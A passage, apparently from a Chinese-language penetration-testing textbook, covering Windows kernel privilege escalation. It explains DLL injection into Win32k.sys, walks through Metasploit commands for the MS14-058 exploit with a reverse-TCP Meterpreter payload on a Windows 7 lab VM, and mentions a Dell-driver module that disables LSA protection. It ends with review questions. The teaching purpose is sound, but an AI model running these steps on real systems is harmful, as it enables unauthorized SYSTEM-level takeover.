+   `payload_mem = inject_into_process()` 是第二次给目标的耳光。`payload.encoded` 是我们的 shellcode（根据需要编码）。此方法仅返回一个值——目标进程内存中 shellcode 的位置。所以，如你所见，在我们的攻击的这一阶段，`payload_mem` 现在是目标内存中 shellcode 开始的位置。

+   如果前两种 DLL 注入方法是给目标的耳光，那么 `process.thread.create(exploit_mem + offset, payload_mem)` 就是我们致命的一击。我们向 `process.thread.create()` 传递了两个参数：首先是 `exploit_mem`（加上偏移量），然后是我们在内存中 shellcode 的位置 `payload_mem`。

那么，为什么我们要将 DLL 注入到一个进程中呢？易受攻击的内核模式驱动程序 `Win32k.sys` 有超过 600 个入口点，允许访问其功能；它处理了许多有用的任务。正如本章之前所讨论的，`Win32k.sys` 负责窗口管理。`Win32k.sys` 代表了该操作系统设计中一个必要的邪恶——它所需的强大功能与对用户模式程序的可访问性相结合。

# 使用 Kali 进行实际的内核攻击

我们有足够的背景知识来与 Kali 坐下来，向一个易受攻击的 Windows 目标发动攻击。此时，你应该启动你的 Windows 7 虚拟机。然而，在这个演示中我们进行了两个阶段，因为这次攻击是本地的。到目前为止，我们一直在研究让我们进入的攻击。这一次，我们已经进入了。对于外行来说，这听起来就像游戏已经赢了，但不要忘记现代操作系统是分层的。曾经有一个黄金时代，远程漏洞会让你在目标 Windows 框上获得完整的`SYSTEM`权限。如今，这种远程漏洞是一件罕见的事情。对于今天的渗透测试人员来说，更有可能的情况是你会执行一些代码，一个 shell 弹出，你感觉自己无所不能 - 直到你意识到你只有计算机上卑微用户的权限，需要管理员的许可才能安装软件。你有了你的*立足点* - 现在，你需要提升你的权限以便能够完成一些工作。

## 特权升级简介

本章描述的内核攻击是特权升级的一个例子 - 在用户端分配内存并向其中注入代码后，我们攻击内核端的漏洞。因此，你是否注意到我们刚刚审查的模块与我们在之前章节中检查的远程攻击之间的巨大差异？没错 - 没有选项来指定目标 IP 地址。这是一次本地攻击；你唯一需要定义的 IP 地址是你的反向 TCP 连接返回给处理程序的地址。

要完成这个演示，你首先需要建立立足点！由于我们要求你进行一些自学以便跟上，我们将继续使用我们老式的 Windows 7 目标。

新操作系统，旧问题 - 易受攻击的 OEM 驱动程序

一旦你对旧版 Windows 7 的理论和实践感到满意，就开始使用 Metasploit 探索现代内核漏洞。查看名为`dell_memory_protect`的令人惊叹的后置模块。戴尔笔记本电脑上提供的一个名为`DBUtilDrv2.sys`的驱动程序在 2.5 和 2.7 版本中存在关键的内核级写-何处漏洞。Metasploit 允许我们对任何 Windows 框执行*自带易受攻击驱动程序*攻击，无论是戴尔还是其他品牌。这个驱动程序很容易在网上找到，所以抓住它，使用模块安装它并禁用 LSA 保护，享受你的`SYSTEM`访问。那些在 IDA 中拆解驱动程序的人将获得额外的赞誉！

## 使用 Metasploit 在 Windows 7 上升级到 SYSTEM

此时，你刚刚从目标那里收到了 Meterpreter 连接 - 你的立足点有效载荷起了作用。我们使用`getuid`命令来查看我们的身份。嗯 - 用户名`FrontDesk`回来了。这个用户是否是管理员并不关心我们；重要的是它不是`SYSTEM`，这是可能的最高权限。即使管理员也无法逃脱某些事情 - 该帐户仍被视为用户模式。

我输入`background`将我的 Meterpreter 会话发送到后台，以便我可以在`msf`提示符下工作。尽管 multi/handler 漏洞仍在使用中，但我可以简单地替换它。这次，我们准备好用`use exploit/windows/local/ms14_058_track_popup_menu`进行内核攻击：



图 13.7 – 在 Metasploit 中管理我们的立足点

在我们的截图示例中，我们没有显示可用的选项；所以，试试`show options`。当你建立漏洞并运行此命令时，你会看到`sessions`选项。这是针对你已经建立的 Meterpreter 会话的。在实际操作中，你可能在几十台机器上都有立足点；使用这个选项将攻击指向特定的会话。在`msf`提示符下，使用`sessions -l`来识别你需要的会话。`sessions -i <id>`将带你回到某个会话中，这样你可以执行`getuid`来验证你的权限：



图 13.8 – 在我们建立的会话中发起攻击

设置这个可能有点混乱，因为你刚刚配置了带有负载的 handler。你需要设置内核漏洞所使用的负载。在我的示例中，我执行`set payload windows/meterpreter/reverse_tcp`来创建一个反向连接的 Meterpreter shellcode 负载。

当你准备好时，执行`run`并祈祷好运。这是一个有趣的攻击；从其性质来看，权限提升可能会失败而不终止你的会话。你会看到屏幕上显示的所有内容都表明攻击成功，且有一个新的 Meterpreter 会话，表明 shellcode 确实已执行——然而，`getuid`将显示与之前相同的用户。这就是模块作者在状态消息中加入“祈祷成功”的原因，`hopefully privileged`：



图 13.9 – 漏洞完成 – 我们现在是 SYSTEM

在我们的演示中，我们的 Windows 7 Ultimate 主机确实存在漏洞。我们现在以`SYSTEM`身份运行。游戏结束。

# 总结

在本章中，我们探讨了 Windows 内核攻击。首先，我们回顾了内核工作原理及攻击者试图利用的内容。在这个理论讨论中，我们回顾了内核的低级管理角色以及这些任务的安全影响，包括调度中断。我们选择了一种漏洞类型，即 NULL 或无效指针解引用漏洞，并对其进行了详细研究，以了解以这种方式利用内核如何使攻击者完全控制系统。我们从 C 代码中指针的回顾开始，然后检查编译后的汇编指令，以了解处理器如何处理指针概念。这个回顾使我们能够理解 NULL 指针是什么，以及它们如何在软件中引起问题。然后，我们介绍了一个特定的内核模式驱动程序 `Win32k.sys`，并对其指针缺陷进行了低级别的审查。我们通过审查 Metasploit 攻击模块来结束这个讨论，该模块旨在攻击这个特定的内核模式驱动程序。最后，我们通过利用这种攻击对易受攻击的内核模式驱动程序进行特权升级的实际演示来结束本章。

在下一章中，我们将通过对模糊测试的回顾来结束编程基础知识。在本书中，您已经尝试过模糊测试，甚至可能没有意识到。我们将回顾基本原理并进行模糊测试实践。

# 问题

回答以下问题以测试你对本章的知识掌握情况：

1.  ______ 位于 NT 内核和硬件之间。

1.  ______ 内核可以中断内核模式线程；协作操作系统必须等待线程完成。

1.  在 C 中，变量前的和符号引用 __________。

1.  三个四字节能容纳多少个双字节？

1.  `AX` 是 64 位 `RAX` 的低 ________。

1.  无法解引用无效指针 - 真或假？

1.  我的十六进制转十进制计算器显示 `ffffffff` 等于 4,294,967,295。为什么 `xxxSendMessage()` 函数认为它是 `-1`？

1.  DLL 注入和反射性 DLL 注入有什么区别？

# 进一步阅读

有关本章涵盖的主题的更多信息，请查看以下资源：

+   HackSys Extreme Vulnerable Driver 的源代码 ([`github.com/hacksysteam/HackSysExtremeVulnerableDriver`](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver))

+   Windows SDK 下载以安装调试器 ([`developer.microsoft.com/en-us/windows/downloads/windows-10-sdk`](https://developer.microsoft.com/en-us/windows/downloads/windows-10-sdk))
